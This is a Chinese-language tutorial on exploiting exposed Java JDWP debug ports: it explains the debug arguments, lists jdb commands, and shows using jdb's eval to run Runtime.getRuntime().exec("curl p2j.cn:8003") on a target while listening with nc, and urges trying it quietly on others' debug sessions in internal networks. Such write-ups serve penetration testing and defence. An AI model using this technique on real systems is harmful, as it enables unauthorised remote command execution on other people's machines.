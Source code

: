 # JDWP攻击示例

JPDA(`Java Platform Debugger Architecture`) 是 Java 平台调试体系结构的缩写，通过 JPDA 提供的 API，开发人员可以方便灵活的搭建 Java 调试应用程序。

大概在2015年左右用tangscan扫到了很几次jdwp服务端口，当时只是简单的测试过这个服务。

这个jdwp服务提供来对java程序调试的功能，只要有程序启动时使用了jdwp参数且端口绑定在内网或者共网上时候我们就可以利用这个服务来执行java代码片段弹shell。比较典型的有tomcat启动的时候如果是以jpda方式启动的话就会启动一个8000端口用于远程调试。

![img](https://oss.javasec.org/images/20190918164155_580.png)



假设我们需要远程调试一段Java程序，如Test.java的main方法：

![img](https://oss.javasec.org/images/20190918161911_104.png)

如果要远程调试我们就需要使用到远程调试参数，我们使用IDEA远程调试的时候会提示我们配置如下参数：

![img](https://oss.javasec.org/images/20190918161657_473.png)

所以我们只需要在执行:java Test 之前添加我们的调试参数即可。

首先在内网找一个测试环境，让他帮我们调试下这个Test.java，在启动的时候加上如下参数：

java -agentlib:jdwp=transport=dt_socket,server=y,suspend=y,address=*:8003 Test

如下图：

![img](https://oss.javasec.org/images/20190918162359_476.png)

测试环境IP是：192.168.88.203，于是我们使用java自带的jdb(Java调试工具)来连接他的8003端口。

![img](https://oss.javasec.org/images/20190918162732_784.png)

jdb自带了很多命令，可以通过命令来查看各种调试信息，详情可以自己执行help命令查看。

```bash
** 命令列表 **
connectors                -- 列出此 VM 中可用的连接器和传输
 
run [class [args]]        -- 开始执行应用程序的主类
 
threads [threadgroup]     -- 列出线程
thread-- 设置默认线程
suspend [thread id(s)]    -- 挂起线程 (默认值: all)
resume [thread id(s)]     -- 恢复线程 (默认值: all)
where [| all] -- 转储线程的堆栈
wherei [| all]-- 转储线程的堆栈, 以及 pc 信息
up [n frames]             -- 上移线程的堆栈
down [n frames]           -- 下移线程的堆栈
kill-- 终止具有给定的异常错误对象的线程
interrupt-- 中断线程
 
print-- 输出表达式的值
dump-- 输出所有对象信息
eval-- 对表达式求值 (与 print 相同)
set=-- 向字段/变量/数组元素分配新值
locals                    -- 输出当前堆栈帧中的所有本地变量
 
classes                   -- 列出当前已知的类
class-- 显示已命名类的详细资料
methods-- 列出类的方法
fields-- 列出类的字段
 
threadgroups              -- 列出线程组
threadgroup-- 设置当前线程组
 
stop in.[(argument_type,...)]
                          -- 在方法中设置断点
stop at:-- 在行中设置断点
clear.[(argument_type,...)]
                          -- 清除方法中的断点
clear:-- 清除行中的断点
clear                     -- 列出断点
catch [uncaught|caught|all]|-- 出现指定的异常错误时中断
ignore [uncaught|caught|all]|-- 对于指定的异常错误, 取消 'catch'
watch [access|all].-- 监视对字段的访问/修改
unwatch [access|all].-- 停止监视对字段的访问/修改
trace [go] methods [thread]
                          -- 跟踪方法进入和退出。
                          -- 除非指定 'go', 否则挂起所有线程
trace [go] method exit | exits [thread]
                          -- 跟踪当前方法的退出, 或者所有方法的退出
                          -- 除非指定 'go', 否则挂起所有线程
untrace [methods]         -- 停止跟踪方法进入和/或退出
step                      -- 执行当前行
step up                   -- 一直执行, 直到当前方法返回到其调用方
stepi                     -- 执行当前指令
下一步                      -- 步进一行 (步过调用)
cont                      -- 从断点处继续执行
 
list [line number|method] -- 输出源代码
use (或 sourcepath) [source file path]
                          -- 显示或更改源路径
exclude [, ... | "none"]
                          -- 对于指定的类, 不报告步骤或方法事件
classpath                 -- 从目标 VM 输出类路径信息
 
monitor-- 每次程序停止时执行命令
monitor                   -- 列出监视器
unmonitor <monitor#>      -- 删除监视器
read-- 读取并执行命令文件
 
lock-- 输出对象的锁信息
threadlocks [thread id]   -- 输出线程的锁信息
 
pop                       -- 通过当前帧出栈, 且包含当前帧
reenter                   -- 与 pop 相同, 但重新进入当前帧
redefine-- 重新定义类的代码
 
disablegc-- 禁止对象的垃圾收集
enablegc-- 允许对象的垃圾收集
 
!!                        -- 重复执行最后一个命令-- 将命令重复执行 n 次
#-- 放弃 (无操作)
help (或 ?)               -- 列出命令
version                   -- 输出版本信息
exit (或 quit)            -- 退出调试器: 带有程序包限定符的完整类名: 带有前导或尾随通配符 ('*') 的类名: 'threads' 命令中报告的线程编号: Java(TM) 编程语言表达式。
支持大多数常见语法。
 
可以将启动命令置于 "jdb.ini" 或 ".jdbrc" 中
位于 user.home 或 user.dir 中</monitor#>
```

因为他使用的是暂停模式，所以我们可以直接在jdb中执行stepi命令来执行当前指令，否则我们需要使用stop 命令来设置断点了，然后我们就可以使用eval或者print指令来调用Runtime去执行系统命令：`eval java.lang.Runtime.getRuntime().exec("curl p2j.cn:8003").getInputStream())`

![img](https://oss.javasec.org/images/20190918163235_140.png)

我们需要在远程服务器上nc下8003端口即可接收受攻击的机器curl过来的请求：

![img](https://oss.javasec.org/images/20190918163600_499.png)

也就是说我们可以在别人debug的时候使用jdb attach进去然后悄无声息的弹个shell回来玩了，这种场景在内网通常是比较常见的遇到这个服务的时候记得试试吧。

jdb参考资料：

[http://docs.oracle.com/javase/7/docs/technotes/tools/windows/jdb.html](https://docs.oracle.com/javase/7/docs/technotes/tools/windows/jdb.html)

https://www.javatpoint.com/jdb-expression

https://www.tutorialspoint.com/jdb/jdb_quick_guide.htm
